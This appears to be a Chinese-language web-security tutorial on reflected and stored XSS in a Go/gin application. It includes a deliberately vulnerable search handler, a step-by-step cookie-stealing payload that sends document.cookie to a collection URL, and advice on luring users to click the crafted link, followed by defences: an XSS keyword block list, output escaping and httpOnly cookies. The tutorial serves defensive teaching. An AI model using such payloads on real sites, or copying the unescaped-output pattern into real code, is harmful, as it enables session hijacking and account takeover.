








在web安全的领域中，xss攻击是最常见的一种攻击方式，xss攻击的核心思想就是在HTML页面中注入恶意代码获取敏感数据，比如cookie值；
xss分为三类：反射型、存储型、dom型，反射型xss和存储型xss属于服务器端的安全漏洞，而dom型xss属于前端自身的安全漏洞（本文忽略）；

### 反射型xss
本文用网站经常存在的搜索功能来演示反射型xss的攻击步骤；
```go
type KeywordField struct {
    Keyword string `form:"keyword" valid:"required~搜索关键词不能为空"`
}

func (ctr *Article) Search(c *gin.Context) {

	request := new(request.ArticleSearch)
	if err := c.Validate(request); err != nil {
		panic(err)
	}

	// 种两个用于演示的cookie
	c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
	c.SetCookie("userID", "1", 86400*30, "/", "127.0.0.1", false, false)

	c.HTML(http.StatusOK, "search.tmpl", gin.H{
		"keyword": template.HTML(request.Keyword), // 为了方便演示，template.HTML会显示原始字符串，默认会自动对特殊符号转义，
	})
}
```
[源码链接](https://github.com/wizardshan/elegantGo/tree/main/app/chapter3.0)

正常传参请求：

```
http://127.0.0.1:8080/article/search?keyword=手机
```


#### 第一步：确定注入点

```
http://127.0.0.1:8080/article/search?keyword=<script>alert('XSS')</script>
```


#### 第二步：获取敏感信息
```
http://127.0.0.1:8080/article/search?keyword=<script>alert(document.cookie)</script>
```


#### 第三步：收集敏感信息
```
http://127.0.0.1:8080/article/search?keyword=<script>document.write('')</script>
这里的+号有问题，转义一下
http://127.0.0.1:8080/article/search?keyword=%3Cscript%3Edocument.write(%27%3Cimg%20src=%22http://127.0.0.1:8080/cookies?%27%2Bdocument.cookie%2B%27%22/%3E%27)%3C/script%3E
```

服务器收集数据如下：


#### 第四步：诱惑用户点击
把第三步精心设计的带有xss漏洞的url通过站内信或邮件的方式发给用户，内容为一些诱惑信息，目的是为了让用户单击链接，
服务器收集到cookie之后再以用户的身份登录网站。

反射型xss应用场景：搜索、查询等用户输入数据需要在前端展示的场景；

### 存储型xss
存储型xss恶意代码通常存储在数据库中，用户只需浏览了包含恶意代码的页面即可在用户无感知的情况下触发，
而反射性xss需要诱导用户点击，所以存储型xss危害性更大。

例1:<br>
攻击者在文章评论中提交了恶意代码，所有浏览过这条评论的用户都会被收集敏感数据。

例2:<br>
攻击者在网站留言板块中提交了恶意代码，管理员在后台查看留言触发恶意代码，导致后台地址、管理员cookie泄漏。

存储型xss应用场景：用户名、昵称、留言、用户反馈、个人信息、发表文章、评论、私信等用户输入数据需要在前端展示的场景；

> 存储型xss原理跟反射性大同小异，这里不做代码演示，有兴趣的小伙伴可以自行深入学习。

#### 总结
**1、当遇到用户输入数据并且需要在前端展示的业务场景时，需要特别小心xss攻击（前端包括网站前端和后台前端）。**

**2、用户输入数据需要进行严格校验过滤。**
```go
type KeywordField struct {
    Keyword string `form:"keyword" valid:"required~搜索关键词不能为空,CheckXSS~非法字符"`
}

var keywords = []string{
`(alert).*(\()`,
`(prompt).*(\()`,
`(eval).*(\()`,
`(window).*(\[)`,
`<script`,
`</script`,
`<x`,
`<X`,
`<http`,
`(function).*(\()`,
`<iframe`,
`(href).*(=)`,
`<br>`,
"alert`",
`(find).*(\()`,
`(top).*(\[)`,
`(vibrate).*(\()`,
`<object`,
`<embed`,
``,
`(vectors).*(\()`,
`<body`,
`(url).*(\()`,
`math>`,
`-->`,
`<!--`,
`<!attlist`,
`<label`,
`<%`,
`xmp>`,
`template>`,
`<!doctype`,
`=confirm`,
}

CheckXSS函数会检查参数是否包含keywords字符串数组里的恶意字符；
因为xss恶意代码还有很多变种，所以CheckXSS函数还会通过html转义、url转义、unicode转义、字符小写四个方面检测恶意字符；
xss-validator是github开源项目，简单化放在项目里使用；
```
**3、页面输出用户数据时进行转义。**
```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": template.HTML(request.Keyword),
})
```
未转义的html源代码：


```go
c.HTML(http.StatusOK, "search.tmpl", gin.H{
    "keyword": request.Keyword,
})
```
转义后的html源代码：


这种方式有小概率的局限性，比如用户输入数据框不是textarea文本框，而是具有更高自由度的富文本框，这时候转义就会出错，
这种情况下更要严格校验用户输入。


**4、条件允许的情况下，cookie可以设置httpOnly。**
```go
c.SetCookie("token", "token123456", 86400*30, "/", "127.0.0.1", false, false)
//最后一个参数就是httpOnly参数，当设置为true时，document.cookie拿不到token值
```
这种方式也有局限性，很多公司前后端分离，前端调用后端接口需要把token放在header头里，js需要拿到token值，httpOnly参数不能设置为true。

通过两节内容讲解了sql注入和xss攻击的原理步骤和防范措施，目的是有理有据的让大家老老实实的做参数校验，不要偷懒，
参数校验是web安全的最重要一环。
